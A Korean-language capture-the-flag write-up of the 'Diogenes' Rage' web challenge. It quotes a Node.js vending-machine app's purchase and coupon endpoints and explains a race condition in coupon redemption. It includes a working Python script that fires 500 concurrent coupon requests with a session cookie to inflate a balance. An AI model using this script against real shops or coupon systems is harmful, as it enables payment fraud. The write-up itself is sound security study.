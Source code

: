# Diogenes' Rage
![JavaScript](https://img.shields.io/badge/javascript-%23323330.svg?style=for-the-badge&logo=javascript&logoColor=%23F7DF1E)
![js](https://img.shields.io/badge/Node.js-43853D?style=for-the-badge&logo=node.js&logoColor=white)

![image](https://github.com/user-attachments/assets/e2610c44-cf49-409a-bd0f-cfb7b559582b)
- 처음 접속시 렌더링되는 자판기 페이지
- 쿠폰을 넣으면 1$가 충전되고, 13$인 ```C8``` 물품을 구매하면 플래그를 획득
- 딱봐도 ```Race Condition``` 문제임을 유추할수있다.

## Source Code Analysis
```
router.post('/api/purchase', AuthMiddleware, async (req, res) => {
    return db.getUser(req.data.username)
        .then(async user => {
            if (user === undefined) {
                await db.registerUser(req.data.username);
                user = { username: req.data.username, balance: 0.00, coupons: '' };
            }

            const { item } = req.body;

            if (item) {
                return db.getProduct(item)
                    .then(product => {
                        if (product == undefined) {
                            return res.send(response("Invalid item code supplied!"));
                        }

                        if (product.price <= user.balance) {
                            const newBalance = parseFloat(user.balance - product.price).toFixed(2);
                            return db.setBalance(req.data.username, newBalance)
                                .then(() => {
                                    if (product.item_name == 'C8') {
                                        return res.json({
                                            flag: fs.readFileSync('/app/flag').toString(),
                                            message: `Thank you for your order! $${newBalance} coupon credits left!`
                                        });
                                    }

                                    res.send(response(`Thank you for your order! $${newBalance} coupon credits left!`));
                                });
                        }

                        return res.status(403).send(response("Insufficient balance!"));
                    });
            }
        });
});
```
- 물건을 구매하는 엔드포인트 함수
- 단일 스레드로 동작하는 ```node.js```의 경우 ```async```를 사용하여 요청을 비동기로 처리하는 경우가 많다.
- 위 함수 또한 ```async``` 키워드가 붙어 비동기적으로 동작하게 되고, 이 경우 ```Race Condition```이 발생한다.

```
router.post('/api/coupons/apply', AuthMiddleware, async (req, res) => {
    return db.getUser(req.data.username)
        .then(async user => {
            if (user === undefined) {
                await db.registerUser(req.data.username);
                user = { username: req.data.username, balance: 0.00, coupons: '' };
            }

            const { coupon_code } = req.body;

            if (coupon_code) {
                if (user.coupons.includes(coupon_code)) {
                    return res.status(401).send(response("This coupon is already redeemed!"));
                }

                return db.getCouponValue(coupon_code)
                    .then(coupon => {
                        if (coupon) {
                            return db.addBalance(user.username, coupon.value)
                                .then(() => {
                                    db.setCoupon(user.username, coupon_code)
                                        .then(() => res.send(response(`$${coupon.value} coupon redeemed successfully!`)))
                                        .catch(() => res.send(response("Failed to redeem the coupon!")));
                                });
                        }

                        res.send(response("No such coupon exists!"));
                    });
            }

            return res.status(401).send(response("Missing required parameters!"));
        });
});

router.get('/api/reset', async (req, res) => {
    res.clearCookie('session');
    res.send(response("Insert coins below!"));
});
```
- 쿠폰을 발급하는 엔드포인트 ```/api/coupons/apply```, 세션을 리셋하는 엔드포인트 ```/api/reset```의 각 동작은 위 코드와 같다.
- 물건을 구매(```/api/purchase```)할 때 뿐만 아니라 쿠폰을 발급 받을 때(```/api/coupons/apply```)도 ```registerUser()```가 호출된다는것을 확인 가능
- 쿠폰을 발급받을 때 사용자 세션이 존재한다면 별도로 ```registerUser()```하지않는다 이후 쿠폰을 가져와 쿠폰에 적힌 값만큼 ```adBalance()```한다

## PoC
![image](https://github.com/user-attachments/assets/b0e3fde5-e133-4b33-be44-2401e5905d2f)
- 세션값이 없을때 자동으로 세션값을 할당받아와 해당 세션값을 사용하고 공격한다.

```
import concurrent.futures
import requests
import json
import time

URL = "http://167.99.82.136:32232/api/coupons/apply"
HEADER = {'Content-Type': 'application/json'}
DATA = {"coupon_code": "HTB_100"}

COOKIES = {
    'session': 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InR5bGVyXzNkNjIzMmQ5MWMiLCJpYXQiOjE3MDU2NDEyMDB9'
}

def send_request():
    response = requests.post(URL, headers=HEADER, data=json.dumps(DATA), cookies=COOKIES)
    return response.json()

def main():
    num_requests = 500
    with concurrent.futures.ThreadPoolExecutor(max_workers=num_requests) as executor:
        futures = [executor.submit(send_request) for _ in range(num_requests)]
        concurrent.futures.wait(futures)
        results = [future.result() for future in futures]

        for result in results:
            print(result)

if __name__ == "__main__":
    start_time = time.time()
    main()
    end_time = time.time()
    print(f"Total time: {end_time - start_time} seconds")
```
- 해당 코드로 요청을 보낸후 공격에 사용된 세션을 사용하여 플래그 구매

![image](https://github.com/user-attachments/assets/dc33ba40-1837-4d78-878a-e223eb177af6)



